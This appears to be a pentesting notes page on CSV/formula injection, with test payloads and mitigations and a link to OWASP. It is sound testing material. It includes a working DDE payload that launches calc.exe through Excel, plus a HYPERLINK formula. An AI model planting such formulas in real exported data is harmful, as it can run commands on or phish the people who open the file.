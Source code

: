 # CSV Injection

CSV/Formula Injection occurs when websites embed untrusted input inside CSV files. This often occurs when a user has write access over a data entry that can be exported by a manager or administrator of the application. An attacker can craft a malicious formula to redirect the user to a phishing site or execute a reverse shell on the system.&#x20;

### Testing

Input one of the following formulas into an exported field and download the document to see if it executes successfully.

{% hint style="warning" %}
Often times for these to work, you will need to have configured Excel with the following: \
File → Options → Trust Center → Trust Center Settings → External Content → Enable Dynamic Data Exchange Server Launch
{% endhint %}

```bash
# Simple payload to confirm the existence of CSV Injection
=1336+1

# Insert an arbitrary link into the document.
=HYPERLINK("https://parzival.sh")

# Spawn calc.exe, this will require security settings disabled in Excel.
=cmd|' /C calc'!xxx
```

### Mitigations

> One of the most basic recommendations to remediate CSV Injection, ensure that no cells begin with any of the following characters:\
>
>
> * Equals to (`=`)
> * Plus (`+`)
> * Minus (`-`)
> * At (`@`)
> * Tab (`0x09`)
> * Carriage return (`0x0D`)

It is recommended to reference the article provided by OWASP on mitigating CSV Injection to completely remediate this vulnerability. It should also be noted that this attack can often times be difficult to mitigate.&#x20;

### References

{% embed url="https://owasp.org/www-community/attacks/CSV_Injection" %}
